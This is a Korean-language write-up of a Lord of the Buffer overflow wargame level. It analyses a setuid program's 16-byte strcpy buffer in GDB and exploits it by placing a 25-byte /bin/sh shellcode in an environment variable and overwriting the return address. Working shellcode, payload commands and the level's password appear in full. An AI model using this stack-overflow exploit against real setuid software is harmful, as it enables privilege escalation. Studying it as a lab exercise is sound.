 ```yaml
---
title: "LOB small buffer Write-Up"
tags: [lob]
categories: [System]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [GDB 분석](#gdb-분석)
3. [Exploit](#exploit)

* * *

## 문제 분석

문제에 접속하면 이전과 같이 하나의 실행 파일과 해당 실행 파일의 소스코드 파일이 존재하는 것을 확인할 수 있습니다.

```
[gremlin@localhost gremlin]$ ls -l
total 32
-rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
-rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
```

프로그램을 실행시키면 `argv error`가 출력됩니다. 이전 문제와 같이 특정 argument 수를 만족해야하는 것으로 예상할 수 있습니다. 확인을 위해 문자열을 전달한 결과 readback하는 것을 확인할 수 있었습니다.

```
[gremlin@localhost gremlin]$ ./cobolt TEST
TEST
```

이전 프로그램과 같은 동작을 확인할 수 있었기에 문제의 제목이 "small buffer" 임을 감안하고 gdb를 사용하여 분석해보았습니다.

## GDB 분석

소스코드를 확인하기 이전에 GDB를 사용하여 분석해보았습니다.

```
(gdb) disassemble main 
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
0x804846c <main+60>:	push   0x80484dc
0x8048471 <main+65>:	call   0x8048350 <printf>
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave  
0x804847a <main+74>:	ret
```

이전 문제와 가장 눈에 띄게 차이가 보였던 점은 buffer의 크기입니다. `main+3`에서 실행되는 명령을 보면 stack의 크기로 16 Byte를 할당합니다.

기존에 사용했던 shellcode가 25 Byte인 것을 감안하면 SFP 4 Byte를 포함해도 20 Byte의 공간이기 때문에 다른 방법을 통해 풀이할 필요가 있었습니다.

## Exploit

주어진 Buffer의 크기에 제한받지 않고 입력할 수 있는 방법으로 Enviornment Variable를 사용하는 것이 있습니다.

프로그램이 실행될 때, Stack 영역에 Enviornment variable 또한 저장되는데 이곳에 shellcode를 저장하여 RET 주소를 변조하면 shell 획득이 가능합니다.

아래와 같은 방식으로 EGG 라는 이름의 환경 변수를 등록하였습니다. Shellcode는 이전과 같은 25 Byte shellcode를 사용하였습니다.

```
[gremlin@localhost gremlin]$ export EGG=`python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")'`
```

등록을 완료하였으면 해당 변수가 저장된 주소를 알아오기 위해 아래 C 코드를 작성하였습니다.

```c
#include <stdio.h>

int main(){
        printf("ENV ADDR: %p\n", getenv("EGG"));
        return 0;
}
```

컴파일 후 실행하면 주소를 획득할 수 있습니다.

```
[gremlin@localhost gremlin]$ ./env 
ENV ADDR: 0xbffffe7e
```

변조할 RET 주소와 RET 주소까지의 offset(16 Byte + SFP) 모두 준비되었으므로 이를 토대로 payload를 작성 후 실행하면 shell을 획득할 수 있습니다.

```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print("\x90"*20+"\x7e\xfe\xff\xbf")'`
~þÿ¿
bash$ id
uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```
